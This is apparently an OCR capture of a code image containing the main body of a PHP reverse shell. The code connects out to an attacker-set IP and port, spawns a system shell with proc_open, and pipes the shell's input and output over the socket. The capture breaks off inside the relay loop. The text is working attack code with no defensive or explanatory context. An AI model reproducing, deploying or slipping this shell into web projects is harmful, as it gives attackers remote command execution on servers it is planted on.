```php

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
```